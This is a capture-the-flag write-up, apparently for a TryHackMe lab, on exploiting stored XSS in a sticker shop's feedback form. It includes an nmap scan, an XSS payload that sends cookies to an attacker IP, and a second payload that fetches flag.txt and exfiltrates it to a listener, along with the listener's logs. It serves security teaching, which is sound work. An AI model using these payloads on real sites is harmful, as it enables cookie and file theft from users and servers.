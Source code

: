 ```yaml
---
title: "XSS Challenge: Exploiting a Sticker Shop's Feedback Form"
date: 2024-01-21
categories: [Cybersecurity, Web Security]
tags: [xss, ctf, web-exploitation, javascript]
order: 1
image:
  path: https://github.com/user-attachments/assets/1d7a378d-3943-40dc-906b-66a4002470a5
  alt: The Sticker Shop Challenge
---
```


## The Challenge

The local sticker shop has just launched its very own webpage. However, lacking much web development experience, they chose to build and host the site on the same computer they use for browsing the internet and reading customer feedback. A questionable decision!

Our objective: Access the flag located at http://ROOM_IP/flag.txt.

## Initial Reconnaissance

An Nmap scan revealed two open ports:

```bash
$ nmap -sV -sC -oN nmap_results 10.10.110.248 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 16:07 CET
Nmap scan report for 10.10.110.248
Host is up (0.032s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
```

## Initial Access Attempts

Direct access to http://10.10.110.248:8080/flag.txt was refused. However, we could access the homepage:

![Sticker Shop Homepage](https://github.com/user-attachments/assets/71ad2f7a-7f18-4fb7-b056-9da8c08a7f13)

The homepage appeared normal, but there was an interesting feedback page where support staff review submissions:

![Feedback Form](https://github.com/user-attachments/assets/874970ba-7060-4516-baf0-605bd62211ab)

## Testing for XSS

First, we tested a basic XSS payload to confirm the vulnerability:

```javascript
<img src=x onerror=document.location="http://10.8.6.138/"+document.cookie>
```

Our server received a connection, confirming the XSS vulnerability:

```bash
$ python3 -m http.server 80                
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.110.248 - "GET / HTTP/1.1" 200 -
```

## Exploiting the Vulnerability

After confirming the XSS vulnerability, we crafted a payload to fetch the flag file and send it to our server:

```javascript
<img src="x" onerror="
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(flag => {
    fetch('http://10.8.6.138:81/?flag=' + encodeURIComponent(flag));
  });
">
```

## Capturing the Flag

Running our listener on port 81:

```bash
$ python3 -m http.server 81
Serving HTTP on 0.0.0.0 port 81 (http://0.0.0.0:81/) ...
10.10.110.248 - "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
```

## Key Takeaways

1. Never host sensitive files on systems accessible to user input
2. Always implement proper input validation and sanitization
3. Separate review systems from production environments
4. Implement proper access controls for sensitive files

This challenge demonstrates how a simple XSS vulnerability can be leveraged to access restricted files when proper security controls aren't in place. 